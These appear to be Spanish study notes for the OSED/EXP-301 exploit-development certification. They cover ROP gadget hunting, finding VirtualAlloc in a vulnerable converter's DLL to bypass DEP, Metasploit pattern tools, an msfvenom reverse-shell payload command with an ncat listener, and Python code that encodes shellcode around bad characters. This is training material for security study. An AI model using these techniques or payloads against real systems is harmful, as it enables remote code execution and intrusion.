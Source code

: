 Algunos Tips y comandos a tener en cuenta, en la certificación OSED/EXP-301

Prevención de Ejecución de Datos (DEP)
Dirección Aleatorización del Diseño Espacial (ASLR)
Control de Flujo de Guardia (CFG)

- subir y bajar procesos
Win+R -> services.msc

P/P/R
58 ==> pop eax
5B ==> pop ebx
59 ==> pop ecx
5A ==> pop edx
5E ==> pop esi
5F ==> pop edi
5D ==> pop ebp
C3 ==> ret

- Probar de forma manual en Windbg que DEP esta habilitado
ed esp 90909090
r eip = esp
p
---------------------------------------------------------------------
- Patrones de metasploit
msf-pattern_create -l 3000
msf-pattern_offset -l 3000 -q 43387143
---------------------------------------------------------------------
- Buscar el IAT en VirtualAlloc
Facil con IDA Pro en los imports 

Forma normal de buscar el IAT que es la dirección del VirtualAlloc(IAT)
!dh MSA2Mfilter03.dll
	   4F000 [     188] address [size] of Import Address Table Directory
dds  MSA2Mfilter03+4F000
	1004f060  7746f660 KERNEL32!VirtualAllocStub
u 0x1004f060
---------------------------------------------------------------------
- Este codigo es un apoyo para encontrar el mejor valor para el EIP gadget
en sublime text poner este codifo REGEX 
(\<push esp\>.*\<pop esi\>)
---------------------------------------------------------------------
- POP EBX y POP ESI eliminarán los gadgets posteriores, por lo que se agrega lo de abajo
ecx = pack("<I",0x50501133)  # XOR ECX,ECX # MOV EAX,ECX # POP EBX # POP ESI # RETN
ecx += pack('<L',0x41414141) # padding for pop ebp
ecx += pack('<L',0x41414141) # padding for pop esi
---------------------------------------------------------------------
- Sacar los Gadgets
copy "C:\Program Files (x86)\Mini-stream\ASX to MP3 Converter\MSA2Mfilter03.dll" .
rp-win-x86.exe -f MSA2Mfilter03.dll -r 5 > rop.txt
---------------------------------------------------------------------
- Para la shellcode
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f python -b "\x00\x0a" -v shellcode
ncat -lvp 4444
---------------------------------------------------------------------
- Automatización de la codificación del lab de offsec
		Esto se uso cuando msf el shellcode no funciona, por bytes los nulos
		
def mapBadChars(sh):
	BADCHARS = b"\x00\x09\x0a\x0b\x0c\x0d\x20"
	i = 0
	badIndex = []
	while i < len(sh):
		for c in BADCHARS:
			if sh[i] == c:
				badIndex.append(i)
		i=i+1
	return badIndex
	
def encodeShellcode(sh):
	BADCHARS = b"\x00\x09\x0a\x0b\x0c\x0d\x20"
	REPLACECHARS = b"\xff\x10\x06\x07\x08\x05\x1f"
	encodedShell = sh
	for i in range(len(BADCHARS)):
		encodedShell = encodedShell.replace(pack("B", BADCHARS[i]), pack("B", REPLACECHARS[i]))
	return encodedShell


Referencias:

https://hacktips.it/tags/osed/
https://github.com/nop-tech/OSED
https://github.com/epi052/osed-scripts
https://defuse.ca/online-x86-assembler.htm#disassembly
https://github.com/tjcim/rop_regexr
https://github.com/mzdaemon/URLDownloadToFileAShellcode
https://initroot.me/shellcode-methodology
